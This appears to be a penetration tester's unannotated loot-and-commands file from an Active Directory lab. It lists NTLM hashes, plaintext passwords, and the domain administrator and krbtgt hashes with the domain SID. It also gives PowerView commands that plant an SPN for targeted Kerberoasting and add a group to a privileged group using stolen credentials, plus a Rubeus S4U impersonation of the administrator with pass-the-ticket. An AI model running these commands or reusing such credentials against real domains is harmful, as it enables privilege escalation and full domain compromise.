 MS01$ b0008678126a9a7143961c96161725a4
administrator 7facdc498ed1680c4fd1448319a8c04f
justalocaladmin ca7fcaab10fad615750cf087230a191d

ned.flanders_adm	Lefthandedyeah!
ned.flanders@offshore.com	Lefty1974!

xlsx broken

1cd4dcef38e313519ac22cb4cf38708b justlocaladmin wsadm ws01
31d6cfe0d16ae931b73c59d7e0c089c0 local administrator ws01
WSADM$ 19f221a69c0693ebfdc064393b55d509
wsadmin 669b12a3bac275251170afbe2c5de8c2

ws02 local administrator 31d6cfe0d16ae931b73c59d7e0c089c0
justlocaladmin 6b857b2c46a3502a8b365f9cfdacdfba
ws02$ c72e375bed0918ced38b7a8d3e7f5e09
svc_iis : Vintage!

sql01$ b40dae2bd88b86bf78ea95ba80f95f33
7facdc498ed1680c4fd1448319a8c04f administrator local
justalocaladmin fa5f1c2a163bd058345bdc980540e645

    1 Bob                                                Str0ngP@ss!                                       
     2 Rob                                                S3cretP@ss!                                       
     3 Try                                                Harder!

$Server = "\\172.16.4.100"
$FullPath = "$Server\q1\backups"
$username = "pgibbons"
$password = 'I l0ve going Fishing!'

:CORP\bill "I like to map Shares!"

$SecPassword = ConvertTo-SecureString 'I l0ve going Fishing!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CORP\pgibbons', $SecPassword)
Set-DomainObject -Credential $Cred -Identity salvador -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CORP\salvador', $SecPassword)
Add-DomainGroupMember -Identity 'Security Engineers' -Members 'Service Desk' -Credential $Cred

.\r.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:ldap/DC01.CORP.LOCAL /ptt

corp administrator 0109d7e72fcfe404186c4079ba6cf79c
krbtgt cba2ed22077aa56ae957bcf43a8d82f8
S-1-5-21-2291914956-3290296217-2402366952

  
Find-InterestingDomainAcl -ResolveGUIDs